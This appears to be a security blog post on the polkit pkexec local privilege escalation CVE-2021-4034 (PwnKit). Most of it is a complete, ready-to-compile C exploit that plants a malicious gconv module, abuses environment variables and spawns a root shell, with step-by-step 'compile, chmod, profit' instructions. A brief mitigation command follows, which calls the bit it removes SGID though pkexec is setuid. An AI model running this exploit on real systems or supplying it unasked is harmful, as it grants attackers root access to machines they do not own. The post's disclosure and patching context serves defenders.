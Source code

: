 ```yaml
---
title: Polkit's Pkexec CVE-2021-4034
author: Nobel Herrera
date: 2022-03-24 11:11:00 -0400
categories: [CVE, Linux]
tags: [RedTeam, LPE, CVE, Linux]
math: true
mermaid: true
image:
  path: /commons/devices-mockup.png
  width: 800
  height: 500
---
```


This post walks through the PoC and manual patching of the local privilege escalation vulnerability discovered in polkit’s pkexec, dubbed as PwnKit.. 

## Contents
---

* [Exploit confirmed on fully patched Ubuntu 21.10](#exploit-confirmed-on-fully-patched-ubuntu-2110)
* [PoC Code](#poc-code)
* [Manual Patching](#manual-patching)
* [Credits](#credits)

---

## Exploit confirmed on fully patched Ubuntu 21.10:
![Format 5](/docs/assets/capture.png)

## PoC Code:
```c
/* Compile: gcc polkit_PoC.c -o PwnKit
* Change perms: chmod +x ./PwnKit
* Profit: ./PwnKit
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```
## Manual Patching:
Remove SGID from /usr/bin/pkexec
```shell
cd /usr/bin && sudo chmod 0755 ./pkexec
```
## Credits:
This vulnerability was discovered by the [Qualys Research Team](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).
